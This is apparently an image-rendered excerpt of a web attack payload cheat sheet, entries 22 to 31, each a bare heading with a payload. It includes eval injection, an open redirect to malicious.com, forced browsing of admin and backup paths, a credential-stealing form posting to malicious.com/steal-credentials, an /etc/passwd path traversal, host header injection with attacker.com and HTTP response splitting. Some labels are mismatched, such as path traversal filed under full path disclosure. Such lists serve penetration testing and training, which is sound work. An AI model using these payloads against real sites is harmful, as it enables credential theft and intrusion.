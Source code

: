 #### 22. Direct Dynamic Code Evaluation (Eval Injection)
```javascript
http://example.com/index.php?input=eval("alert('XSS')")
```

#### 23. Execution After Redirect (EAR)
```http
http://example.com/redirect?url=http://malicious.com
```

#### 24. Exploitation of CORS
```http
Origin: null
```

#### 25. Forced Browsing
```http
http://example.com/admin
http://example.com/config
http://example.com/backup
```

#### 26. Form Action Hijacking
```html
<form action="http://malicious.com/steal-credentials">
  <input type="text" name="username">
  <input type="password" name="password">
  <input type="submit">
</form>
```

#### 27. Format String Attack
```plaintext
http://example.com/index.php?input=%x%x%x%x
```

#### 28. Full Path Disclosure
```http
http://example.com/index.php?file=../../../../etc/passwd
```

#### 29. Function Injection
```http
http://example.com/index.php?func=alert('Hacked')
```

#### 30. Host Header Injection
```http
GET / HTTP/1.1
Host: victim.com
X-Forwarded-Host: attacker.com
```

#### 31. HTTP Response Splitting
```http
GET / HTTP/1.1
Host: example.com%0D%0AContent-Length:0%0D%0A%0D%0AHTTP/1.1 200 OK
```

